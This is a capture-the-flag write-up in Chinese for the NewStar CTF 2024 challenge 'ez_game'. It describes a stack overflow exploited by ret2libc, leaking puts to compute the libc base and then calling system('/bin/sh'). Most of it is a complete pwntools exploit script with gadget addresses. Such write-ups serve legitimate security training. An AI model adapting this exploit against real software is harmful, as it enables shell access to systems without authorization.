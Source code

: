 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# ez_game

![func函数](/assets/images/wp/2024/week2/ez-game_1.png)

明显的栈溢出且没有后门函数

再checksec一下，没有开启pie

![checksec的结果](/assets/images/wp/2024/week2/ez-game_2.png)

直接打ret2libc（但是得进行栈对齐）

1.先通过puts泄露出puts地址，通过puts地址与libc基地址的偏移得到libc基地址，并返回main函数进行第二次溢出，实现getshell

2.构建system("/bin/sh")取shell

tips：用ret地址进行栈对齐

EXP:

```Python
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

ifremote=0
if ifremote==1:
    io=remote('0.0.0.0',9999)
else:
    io=process('./attachment')

elf = ELF('./attachment')
#libc=ELF("./libc-2.31.so")
libc=elf.libc

#gdb.attach(io)
#pause()

puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main_addr=elf.symbols['main']
ret_addr=0x0000000000400509

payload=b'a'*0x58+p64(0x0000000000400783)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.sendline(payload)
io.recvuntil(b'\x0a')
puts_addr=u64(io.recv(6).ljust(8,b'\x00'))
print("puts_addr======================>",hex(puts_addr))

libc_base=puts_addr-libc.sym['puts']
system_addr=libc_base+libc.sym['system']
bin_sh_addr=libc_base+0x1b45bd

payload=b'a'*0x58+p64(0x0000000000400783)+p64(bin_sh_addr)+p64(ret_addr)+p64(system_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.send(payload)

io.interactive()
```
